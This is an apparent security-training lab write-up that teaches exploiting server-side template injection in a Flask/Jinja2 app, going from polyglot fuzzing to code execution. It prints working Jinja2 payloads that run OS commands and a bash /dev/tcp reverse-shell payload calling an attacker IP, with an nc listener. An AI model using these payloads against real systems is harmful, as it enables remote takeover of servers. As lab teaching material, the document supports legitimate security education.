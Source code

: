 ﻿# SSTI Audition Lab

## Welcome!

In this lab, we will look at Server-side Template Injection, a web vulnerability common among many web frameworks that use templates. Please feel free to step outside of the instructions and play around with the injection and the various features you can abuse with it.

Template engines are designed to help frameworks generate web pages by combining fixed templates with input data. Server-side template injection occurs when a template renders in a web application without filtering, allowing us, the attacker, to execute arbitrary code on the server. In this lab, we will look at the Jinja2 framework in Python and how to abuse SSTI to gain a reverse shell against the web server.

## Discovery & Fuzzing

![img8.PNG](img8.PNG)

Heading to Tech Guru's website, we can find a field requesting our name for personalized insights. Because this field is a prime candidate for server-side template injection, let's go ahead and try to fuzz for it. The most straightforward approach would be using a polyglot to see how the application interacts with our request.

```python
${{<%[%'"}}%\
```

![img.png](img.png)

Polyglots are great because they test all characters that could make an application vulnerable. What we are looking for here is to trigger an unexpected error or behavior.

After clicking "Get Insights," we will execute the polyglot and receive a flask error. Excellent! Now we know precisely what template the application is using.

![img1.png](img1.png)

In this case, we now know that the application we are interacting with is written in Python. We also understand that its template is Jinja2, as annotated by the `jinja2.exceptions.TemplateSyntaxError`.

In other applications outside this lab, if the above did not result in an error or some other indicator that the application behaved unexpectedly. We may use the `ffuf` tool to fuzz instead. After we have opened burp suite (You may type burp suite in the console), we may run the following:

```bash
#The wget command is just to grab the fuzzing file we will be using, it contains code for all templates.
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz
ffuf -u www.victim-website.com/ -x FUZZ -w ssti.fuzz -replay-proxy http://127.0.0.1:8080/
```

You may manually analyze the responses to see what returns "49" (As indicated by 7*7) or the id of the user.

2 great resources for figuring out which template injection it is are the following:

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Since we do not need to use ffuf as we already know the template. We can look into specifics on how the Jinja2 template works.
## Understanding the Jinja2 Template
https://jinja.palletsprojects.com/en/3.1.x/

"Jinja is a fast, expressive, extensible templating engine. Special placeholders in the template allow writing code similar to Python syntax. Then the template is passed data to render the final document."

Jinja2 is typically used in the django and flask frameworks. 

If the app blindly takes user input and renders it in the application, it may be vulnerable to arbitrary code injection. Let's take a look at what this looks like in Python.

```python
greeting = render_template_string(f"Hello, {name}!")
```

The `render_template_string` function renders the template {name} without filtering. Because of this, we can make the application evaluate any code we provide.

## Discovery and Exploitation of Python Methods with SSTI (Flask / Jinja2)

Some template frameworks allow you to execute arbitrary code freely; Jinja2, however, does not. We must first figure out what methods we can access.

Firstly, we will attempt to access a simple built-in method such as `upper()`

`{{"test".upper()}}`

![img2.PNG](img2.png)

We can see that "test" is in all-caps. Knowing that we can now access built-in methods, we can leverage this to execute any code from any module that is built into python.

The `os` module in python allows python to interface with the operating system. This is a prime target for us as it will enable us to execute code directly on the target host.

There are several ways to access a built-in method; however, we will use something simple and obtain remote code execution that way. You will always want to start simple and ensure you can get a working proof of concept exploit before expanding on it into something more complicated like a reverse shell. For now, we will obtain the user's id the flask application is running as.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![img3.png](img3.png)

Great! As you can see, we can successfully execute Linux commands. Now let's get a reverse shell!

We will configure our command first to copy over into our SSTI Injection.

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/4444 0>&1"
```

You will want to change the IP address `x.x.x.x`. You may get your IP address by typing `ip addr`.

After you have configured your SSTI Injection, we will want to create the full PoC (Proof of Concept) in a note to copy and paste.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.112/4444 0>&1"').read() }}```
```

Now that we have built our payload, we may start a listener on our attack machine.

```bash
nc -nvlp 4444
```

![img6.png](img6.png)

After you execute the payload on the website, you should obtain a shell from the web server.

![img5.png](img5.png)

![img7.png](img7.png)

Excellent, we now have a reverse shell on the web server!